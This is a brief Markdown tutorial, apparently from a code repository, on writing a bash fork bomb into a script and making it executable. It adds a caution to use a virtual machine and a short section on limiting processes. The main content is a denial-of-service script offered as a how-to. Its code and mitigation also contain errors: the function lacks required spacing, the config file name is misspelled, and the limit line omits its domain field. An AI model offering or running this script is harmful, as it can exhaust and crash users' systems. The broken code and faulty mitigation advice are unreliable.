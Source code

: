 # Creating a Forkbomb with Bash
>[!CAUTION]
> Do not use this script on your PC, it may damage your operating system. Use a virtual machine.
#
Create a script with <code>vi forkbomb.sh</code> and inside we will insert:
```
fork() {fork | fork &}; fork
echo "This is a forkbomb!"
```
To give it execution permissions without asking root for the password we will use <code>chmod +x forkbomb.sh</code>
#
## Mitigated a forkbomb
These types of attacks can be mitigated by going to <code>/etc/security/limit.conf</code> setting the maximum processes to 300/350.
For systems that use Linux starting from version 2.6 just add the line <code>hard nproc 300</code>.
